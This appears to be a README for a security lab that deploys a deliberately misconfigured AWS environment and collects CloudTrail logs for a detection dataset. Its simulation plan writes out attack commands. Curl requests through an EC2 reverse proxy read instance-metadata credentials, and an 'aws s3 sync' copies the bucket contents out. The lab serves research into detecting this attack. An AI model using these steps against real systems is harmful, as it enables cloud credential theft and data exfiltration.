 # Cloud Breach S3

An environment to replicate an adversary abusing a misconfigured EC2 reverse proxy to obtain instance profile keys (Access and Secret) and eventually exfiltrate files from an S3 bucket. The configurations and deployment templates were adapted from the [Rhino Security labs - Cloud Goat project](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/cloud_breach_s3). The automatic cloudtrail configurations and templates were added to the environment with the main goal to extract the logs and share the dataset with the InfoSec community via the [Mordor project](https://mordordatasets.com/introduction.html).

# Resources Deployed

* S3 bucket (Sensitive Data)
    * One file uploaded at deployment time
* EC2
    * Nginx Installed (Reverse Proxy)
    * BankingWAFRole IAM Role
        * Full Access to S3 Bucket
* CloudTrail Trail
    * GlobalS3DataEventsTrail
        * Data Resource: S3 Bucket
        * API & Management Events
* S3 Bucket (CloudTrail)
* EC2 (Log Collector)
    * Logstash
        * S3 Input Plugin
        * Kafka Output Plugin
    * Kafka Docker Container
        * Topic: cloudtrail
    * Kafkacat
        * Ready to consume logs from kafka

# Pre-Deployment

**Pre-Requisites:**

* [AWS CLI Installed](https://blacksmith.readthedocs.io/en/latest/aws_cli_setup.html)
* AWS User Account

## Create Demo User Account

```
aws iam create-access-key --user-name stevie
```

## Enable Programmatic Access

Save the access key and secret keys output after running the following command:

```
aws iam create-access-key --user-name stevie
```

## Attach AdministratorAccess Policy 

```
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name stevie
```

## Configure Demo User AWS Profile

use the keys obtained after enabling programmatic access to the demo user account.

```
aws configure --profile stevie
```

## Create Key Pair

```
aws --region us-east-1 ec2 --profile stevie create-key-pair --key-name aws-ubuntu-key --query 'KeyMaterial' --output text > aws-ubuntu-key.pem
```

# Deploy Environment

* Update VPC parameters

```
./deploy-cloud-breach.sh -r us-east-1 -p stevie
```

# Simulation Plan

Steps from [Rhino Security labs - Cloud Goat project: Cloud Breach S3](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/cloud_breach_s3)

```
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'

curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

​aws configure --profile erratic

​aws_session_token = <session-token>

​aws s3 ls --profile erratic

​aws s3 sync s3://<bucket-name> ./cardholder-data --profile erratic

```

# Data Collection

## SSH to EC2 Log Collector

```
ssh -v -i ~/Documents/keys/aws-ubuntu-key.pem ubuntu@<EC2 Log Collector Public IP>
```
## Verify Logstash

```
tail -f /var/log/logstash/logstash-plain.log
```

## Verify Kafka Broker

Verify if the Kafka broker is running, the `cloudtrail` topic is available and there is data already being collected from the cloudtrail S3 bucket:

```
kafkacat -b localhost:9092 -t cloudtrail -C
```

## Collect Cloudtrail Logs (Consume)

```
kafkacat -b localhost:9092 -t cloudtrail -C -o end > ec2_proxy_s3_exfiltration_$(date +%F%H%M%S).json
```

# References

* https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-capital-one-breach-ttps-in-aws-logs-using-azure/ba-p/1014258
* https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-capital-one-breach-ttps-in-aws-logs-using-azure/ba-p/1019767
* https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/cloud_breach_s3
* https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/cheat_sheet.md
* https://docs.aws.amazon.com/IAM/latest/UserGuide/id_users_create.html#id_users_create_cliwpsapi
* https://docs.aws.amazon.com/cli/latest/reference/iam/create-access-key.html
* https://www.elastic.co/guide/en/logstash/current/plugins-codecs-cloudtrail.html
* https://www.elastic.co/guide/en/logstash/current/plugins-inputs-s3.html
* https://github.com/Azure/Azure-Sentinel/blob/master/Parsers/Logstash/input-aws_s3-output-loganalytics.conf
